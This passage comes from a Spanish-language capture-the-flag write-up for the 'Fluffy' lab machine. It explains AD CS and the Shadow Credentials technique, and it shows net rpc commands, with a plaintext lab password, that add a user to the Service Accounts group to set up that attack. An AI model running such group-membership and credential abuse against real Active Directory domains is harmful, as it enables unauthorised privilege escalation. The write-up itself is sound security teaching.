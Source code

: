 En cuanto a las otras cuentas, `ca_svc` parece ser una cuenta para gestionar certificados a través del servicio AD CS, debido a que forma parte del grupo [`Cert Publishers`](https://legacy.thehacker.recipes/a-d/movement/ad-cs#cert-publishers).

> AD CS, o Servicios de certificados de Active Directory, es una función de servidor de Windows que permite a las organizaciones crear una infraestructura de clave pública (PKI) para emitir, gestionar y revocar certificados digitales.
{: .notice--info}

![image-center](/assets/images/posts/fluffy-bloodhound-5.png)
{: .align-center}


## Shadow Credentials

> Esta técnica contempla modificar el atributo `msDS-KeyCredentialLink`, añadiendo credenciales alternativas en forma de certificados, permitiendo autenticarnos como el usuario víctima sin conocer su contraseña. 
{: .notice--info}

El derecho `GenericAll` otorga control total sobre el usuario objetivo, pudiendo modificar cualquier atributo de esta cuenta. 

En este caso necesitaremos formar parte del grupo `Service Accounts` para poder realizar el ataque, debido a que solo los miembros del grupo `Service Accounts` tienen control sobre atributos de otras cuentas de ese grupo

~~~ bash
net rpc group addmem 'SERVICE ACCOUNTS' 'p.agila' -U 'fluffy.htb/p.agila%prometheusx-303' -S DC01.fluffy.htb
~~~

A modo de verificar que hemos añadido al usuario `p.agila` correctamente al grupo `Service Accounts`, verificaremos los miembros del grupo

~~~ bash
net rpc group members 'SERVICE ACCOUNTS' -U 'fluffy.htb/p.agila%prometheusx-303' -S DC01.fluffy.htb  

FLUFFY\ca_svc
FLUFFY\ldap_svc
FLUFFY\p.agila
FLUFFY\winrm_svc
~~~
